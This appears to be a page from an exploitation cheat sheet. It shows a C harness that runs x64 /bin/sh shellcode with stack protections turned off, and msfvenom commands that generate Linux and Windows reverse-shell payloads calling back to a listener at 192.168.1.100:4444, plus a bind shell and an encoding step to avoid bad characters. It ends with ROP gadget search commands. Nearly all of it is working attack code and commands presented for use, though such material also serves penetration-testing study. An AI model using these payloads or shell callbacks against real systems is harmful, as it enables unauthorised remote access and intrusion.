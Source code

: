 **Test shellcode:**

```c
#include <stdio.h>
#include <string.h>

unsigned char shellcode[] = "\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x31\xd2\xb0\x3b\x0f\x05";

int main() {
    printf("Shellcode length: %lu\n", strlen(shellcode));

    int (*ret)() = (int(*)())shellcode;
    ret();

    return 0;
}
```

**Compile and run:**

```bash
# Disable protections for testing
gcc -z execstack -fno-stack-protector -o test_shellcode test_shellcode.c

./test_shellcode
# Should spawn shell
```

**Msfvenom shellcode generation:**

```bash
# Linux x64 reverse shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f c

# Windows x64 reverse shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f c

# Encode shellcode (bypass bad characters)
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -b '\x00\x0a\x0d' -f c

# Bind shell
msfvenom -p linux/x64/shell_bind_tcp LPORT=4444 -f c
```

### ROP (Return-Oriented Programming)

**Finding ROP gadgets:**

```bash
# ROPgadget
ROPgadget --binary ./vulnerable_binary > gadgets.txt

# Search for specific gadgets
ROPgadget --binary ./vulnerable_binary --only "pop|ret"

# Ropper
ropper --file ./vulnerable_binary --search "pop rdi"

# radare2
r2 -A ./vulnerable_binary
> /R pop rdi
```
